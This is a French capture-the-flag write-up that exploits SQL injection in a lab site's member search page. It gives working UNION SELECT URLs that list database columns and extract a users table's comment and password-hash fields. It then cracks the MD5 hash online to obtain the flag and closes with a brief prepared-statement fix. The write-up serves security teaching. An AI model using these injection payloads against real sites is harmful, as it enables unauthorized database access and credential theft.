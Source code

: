 # Users injections

## Trouver la faille :

En allant sur la page de recherche d'un membre (`page=member`), et en cherchant à tâtons, on trouve un utilisateur interessant :

```
ID: 5
First name: Flag
Surname : GetThe
```

On fait une injection SQL pour trouver les noms des colonnes de toutes les tables :
`http://192.168.1.12/?page=member&id=1 union all select 1,column_name from information_schema.columns&Submit=Submit`

On trouve plusieurs noms de colonnes et on en déduis en testant avec des injections (et un peu de logique) que celles concernant les utilisateurs sont :

```
- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`
```

On fait donc des injections pour récupérer les informations de l'utilisateur à l'ID 5 :

`http://192.168.1.12/?page=member&id=1 union all select 1,Commentaire from users&Submit=Submit`

La colonne Commentaire nous donne :
`Decrypt this password -> then lower all the char. Sh256 on it and it's good !`

Malheureusement une tentative d'injection pour la colonne `password` ne donne rien de concluant :
`Unknown column 'password' in 'field list'`

On tente alors les autres colonnes pour trouver quelque chose qui ressemblerait à un hash.

La colonne `countersign` correspond à ce que l'on recherche :

`http://192.168.1.12/?page=member&id=1 union all select 1,countersign from users&Submit=Submit`

On obtiens le hash suivant : `5ff9d0165b4f92b14994e5c685cdce28`

On le décrypte avec le site https://md5decrypt.net/, et on obtiens le mot suivant : `FortyTwo`

On est donc sur la bonne piste !

Il ne nous reste plus qu'à le mettre en miniscule et à le hash :

```
echo -n FortyTwo | tr '[:upper:]' '[:lower:]' | openssl dgst -sha256
```

FLAG : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## S'en prémunir :

Préparer les requêtes, avec par exemple un ORM. Cela empêche de faire des injections SQL.
